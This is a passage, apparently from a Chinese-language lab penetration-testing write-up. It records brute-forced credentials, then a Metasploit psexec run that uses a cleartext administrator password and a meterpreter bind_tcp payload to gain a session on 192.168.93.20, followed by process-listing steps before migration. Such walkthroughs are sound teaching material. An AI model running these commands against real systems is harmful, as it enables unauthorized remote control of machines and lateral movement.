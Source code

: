 成功爆破出20和30的密码



利用psexec上线

```
use exploit/windows/smb/psexec
set payload windows/meterpreter/bind_tcp
set smbuser administrator
set smbpass 123qwe!ASD
set rhost 192.168.93.20
run
```

![image-20250406230336636](./assets/image-20250406230336636.png)



进程迁移

```
getuid
getpid
ps
```

![image-20250406230505510](./assets/image-20250406230505510.png)

